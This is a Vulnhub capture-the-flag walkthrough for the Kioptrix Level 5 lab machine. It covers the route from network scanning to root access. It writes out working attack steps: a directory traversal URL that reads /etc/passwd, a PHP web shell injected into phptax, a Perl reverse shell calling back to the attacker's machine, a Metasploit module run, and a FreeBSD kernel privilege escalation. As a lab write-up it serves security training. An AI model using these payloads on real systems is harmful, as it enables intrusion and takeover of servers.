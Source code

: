 ```yaml
---
title: Kioptrix Level 5 Vulnhub Walkthrough
date: 2019-09-07 13:06:27 GMT+2
categories: [Vulnhub]
tags: [vulnhub, boot2root, ethical hacking]     # TAG names should always be lowercase
image: /assets/img/posts/kioptrix5/kioptrix5_3.png
---
```


## Machine Info:
* Difficulty: Easy
* Goal: Gain root access

## Kioptrix 5 mount root
Before we start, we need to mount a specific drive so kioptrix 5 machine boots up successfully.  
We write the following commands on kioptrix 5 terminal.

```bash
ufs:/dev/ada0p2		# In case of virtual box version 4.3.10
or
ufs:ada0p2		# In case of virtual box version 6.1
```

![kioptrix5](/assets/img/posts/kioptrix5/kioptrix5_2.png)
![kioptrix5](/assets/img/posts/kioptrix5/kioptrix5_3.png)

## Network Scanning
### Netdiscover
Let's start running netdiscover to find the target's IP address.

```bash
netdiscover -i eth1
```

![netdiscover](/assets/img/posts/kioptrix5/1.png)

### Nmap
Then, we run nmap to determine open ports and running services.

```bash
nmap -p- -A 192.168.56.114
```

![nmap](/assets/img/posts/kioptrix5/2.png)

We have found only two open ports and one running service which are HTTP:80 and HTTP:8080. So, let's start enumerating.

## Enumeration
### HTTP Enumeration
we start enumerating http service on port 80. So, we go to the website and we found a simple page and nothing else. Then, we view source code of that page and we found a path.

![http:80](/assets/img/posts/kioptrix5/3.1.png)
![http:80](/assets/img/posts/kioptrix5/3.2.png)

We move to that path and we noticed that there is a php charting library called "pChart 2.1.3".

![http:80](/assets/img/posts/kioptrix5/3.3.png)

## Exploitation
Therefore, we use searchsploit to search for any available exploits of "pChart 2.1.3". We found the exploit [31173](https://www.exploit-db.com/exploits/31173) that leverage a directory traversal and cross-site scripting (XSS) vulnerability.

```bash
searchsploit pChart
searchsploit -m php/webapps/31173.txt
vi 31173.txt
```

![searchsploit](/assets/img/posts/kioptrix5/4.png)
![31173.txt](/assets/img/posts/kioptrix5/5.png)

We copy the payload that mentioned in the exploit [31173](https://www.exploit-db.com/exploits/31173) at the directory traversal section then modify and paste it in the URL to print the /etc/passwd file. We do that to make sure that website is vulnerable to directory traversal or local file inclusion (LFI) vulnerability.

```
http://192.168.56.114/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```

![etc_passwd](/assets/img/posts/kioptrix5/6.png)

Now from the first line of the above image and nmap results, we know that we deal with FreeBSD 9.0 operating system and apache web server. So, we use google to search for the default apache configuration file path and we found it at that path "/usr/local/etc/apache22/httpd.conf".

![freebsd_configure_apache](/assets/img/posts/kioptrix5/7.png)

Then, we replace "/etc/passwd" in the URL by our new path of the apache configuration file "/usr/local/etc/apache22/httpd.conf" and through looking to that file we noticed that over port 8080 the web server only accepts requests if the user agent is mozilla 4.0.

```
http://192.168.56.114/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

![httpd.config](/assets/img/posts/kioptrix5/8.png)

We try to open the website over port 8080 and we got a forbidden response. So, we decided to use burp suite to modify the user agent header from mozilla 5.0 to mozilla 4.0.

![8080_forbidden](/assets/img/posts/kioptrix5/9.png)

We run burp suite and go to proxy tab then options tab and scroll down untill match and replace section then select mozilla 4.0. Match and replace automats the process of modifying user agent header instead of do it manual for each request.

![burp](/assets/img/posts/kioptrix5/10.png)

Now we can open the website over port 8080 and we noticed that there is a software running called "phptax".

![phptax](/assets/img/posts/kioptrix5/11.1.png)
![phptax](/assets/img/posts/kioptrix5/11.2.png)

### Method 1: File Manipulation 'newvalue' / Remote Code Execution
Therefore, we use searchsploit again to search for any available exploits of that software. We found three exploits and we are going to do manual exploit, so we select the second exploit to use which is [25849](https://www.exploit-db.com/exploits/25849). That exploit simply create a file "rce.php" and inject to it a php code "<?php passthru($_GET[cmd]);?>" then we use that cmd parameter to execute our malicious commands on the web server.

![searchsploit2](/assets/img/posts/kioptrix5/12.png)

We use the URL encoded payload in the URL then we try to execute commands through cmd parameter and we successfully executed "id" command to make sure that our exploit works well.

```
httP://192.168.56.114:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
http://192.168.56.114:8080/phptax/data/rce.php?cmd=id
```

![exploit_test](/assets/img/posts/kioptrix5/14.png)
![id_command](/assets/img/posts/kioptrix5/15.png)

Then, we run a perl reverse shell on port 4444 to gain access on the target machine and we successfully got a shell as www user.

```bash
# On kali linux terminal
nc -nlvp 4444
```
```
http://192.168.56.114:8080/phptax/data/rce.php?cmd=perl -e 'use Socket%3b%24i%3d"192.168.56.157"%3b%24p%3d4444%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname("tcp"))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i)))){open(STDIN%2c">%26S")%3bopen(STDOUT%2c">%26S")%3bopen(STDERR%2c">%26S")%3bexec("%2fbin%2fsh -i")%3b}%3b'
```

![www_shell](/assets/img/posts/kioptrix5/16.png)

### Method 2: 'pfilez' Execution Remote Code Injection (Metasploit)

Also, as depicted from the results of searchsploit, we can exploit our target machine using metasploit framework. Therefore, we run metasploit and search for phptax then we use it's module and set the approperiate options to run.

```bash
searchsploit phptax
msfconsole
search phptax
use 0	or	use exploit/multi/http/phptax_exec
options
set RHOSTS 192.168.56.114
set RPORT 8080
run
``` 

![msfconsole](/assets/img/posts/kioptrix5/exp_method2/1.png)
![msfconsole](/assets/img/posts/kioptrix5/exp_method2/2.png)

And here it is, after we execute the run command, we got a shell as www user.

![msfconsole](/assets/img/posts/kioptrix5/exp_method2/3.png)

## Privilege Escalation
Now it is time to escalate our privileges to root user. As we know, we deal with FreeBSD 9.0 OS. Therefore, we run searchsploit again and again to search for any available privilege escalation exploits for that OS and we have found a good one which is a kernel privilege escalation [28718](https://www.exploit-db.com/exploits/28718).

```bash
searchsploit FreeBSD 9.0
searchsploit -m freebsd/local/28718.c
```

![searchsploit3](/assets/img/posts/kioptrix5/17.png)

Then, we use netcat to transfere the exploit file to the target machine.

```bash
# On kali terminal
nc -nlvp 4445 < 28718.c
```
```bash
# On target terminal
nc 192.168.56.157 4445 > 28718.c
pwd
ls
```

![exploit_transfere](/assets/img/posts/kioptrix5/18.png)

After that, we compile the exploit file using gcc program then execute it and we finally got a root shell.

```bash
gcc 28718.c -o 28718
./28718
id
whoami
```

![root](/assets/img/posts/kioptrix5/19.png)

And at the end, here is the flag "congrats.txt"

```bash
cd /root
pwd
ls
cat congrats.txt
```

![flag](/assets/img/posts/kioptrix5/flag.png)
